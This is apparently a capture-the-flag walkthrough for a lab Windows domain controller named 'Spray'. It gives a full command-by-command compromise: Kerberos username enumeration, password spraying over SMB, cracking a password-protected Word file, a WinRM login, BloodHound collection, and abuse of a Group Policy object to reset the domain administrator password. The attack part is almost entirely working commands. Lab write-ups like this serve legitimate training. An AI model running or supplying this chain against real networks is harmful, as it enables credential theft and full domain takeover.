



# Spray

**IP Address:** 172.31.3.9

## Enumeration
### Open Ports
| Port | State | Service | Version |
|------|-------|---------|---------|
| 135/tcp | open | msrpc | Microsoft Windows RPC  |
| 139/tcp | open | netbios-ssn | Microsoft Windows netbios-ssn  |
| 3269/tcp | open | tcpwrapped |   |
| 3389/tcp | open | ms-wbt-server | Microsoft Terminal Services  |
| 389/tcp | open | ldap | Microsoft Windows Active Directory LDAP  |
| 445/tcp | open | microsoft-ds |   |
| 464/tcp | open | kpasswd5 |   |
| 49666/tcp | open | msrpc | Microsoft Windows RPC  |
| 49669/tcp | open | ncacn_http | Microsoft Windows RPC over HTTP 1.0 |
| 49670/tcp | open | msrpc | Microsoft Windows RPC  |
| 49671/tcp | open | msrpc | Microsoft Windows RPC  |
| 49676/tcp | open | msrpc | Microsoft Windows RPC  |
| 49698/tcp | open | msrpc | Microsoft Windows RPC  |
| 53/tcp | open | domain |   |
| 593/tcp | open | ncacn_http | Microsoft Windows RPC over HTTP 1.0 |
| 636/tcp | open | tcpwrapped |   |
| 88/tcp | open | kerberos-sec | Microsoft Windows Kerberos  |
| 9389/tcp | open | mc-nmf | .NET Message Framing  |
| 123/udp | open | ntp | NTP v3 |
| 137/udp | open | netbios-ns | Microsoft Windows netbios-ns  |
| 53/udp | open | domain |   |

## Initial Foothold

1. Enumerate a list of usernames. 

Commands
```
kerbrute -users names.txt -domain spray.csl -dc-ip $ip
```


2. Create users.txt file with found usernames

Commands
```
echo 'calvin' > users.txt
echo 'freedy' >> users.txt
echo 'johana' >> users.txt
```



3. Spray the users.txt file as both the username and password in a bruteforce attack. 

Commands
```
crackmapexec smb $ip -u users.txt -p users.txt --continue-on-success
```


4. Enumerate shares using the found credentials

Commands
```
smbmap -u johana -p johana -H $ip
```


5. Connect to share and download file 

Commands
```
smbclient //$ip/spray -U "johana"
johana
ls
get "Important Note.docx"
```


6. Crack the word document using john. 

Commands
```
/usr/share/john/office2john.py Important\ Note.docx > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```


7. Open word document with password (181818)


8. Enumerate additional users and add them to users.txt

Commands
```
rpcclient -U johana $ip
johana
enumdomusers
```



9. Spray the newly found password against all found usersnames. 

Commands
```
crackmapexec smb $ip -u users.txt -p Spray.csl1337 --continue-on-success
```


10. Connect with the newly found credentials and read the access.txt file. 

Commands
```
evil-winrm -i $ip -u hackzzdogs -p 'Spray.csl1337'
type ..\Desktop\access.txt
```


## Privilege Escalation
### Exploit Details (Group Policy)
* **Name** - Group Policy
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

1. Upload then run SharpHound and download the results. 

Commands
```
upload /home/kali/share/windows/privesc/SharpHound.exe
.\SharpHound.exe
download 20210817083309_BloodHound.zip
```



2. Run the custom query 'Find if any domain user has interesting permissions against a GPO' and we see user hackzzdogs has permissions over the DCPOLICY GPO. 


3. Exploit the Group Policy object to reset the administrator password. 

Commands
```
upload /home/kali/share/windows/privesc/SharpGPOAbuse.exe
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Debug" --Author SPRAY\administrator --Command "cmd.exe" --Arguments "/c net user administrator P@ssw0rd123 /domain" --GPOName "DCPolicy"
gpupdate /force
```


4. Login with the newly reset administrator password and read the system.txt file. 

Commands
```bash
evil-winrm -i $ip -u administrator -p 'P@ssw0rd123'
whoami
type ..\Desktop\system.txt
```


## Loot
```
access.txt
169e9fc230d14a8dc39d40a47d1fc952
system.txt
f8dc08804ed639693c5bc568f9c415db
```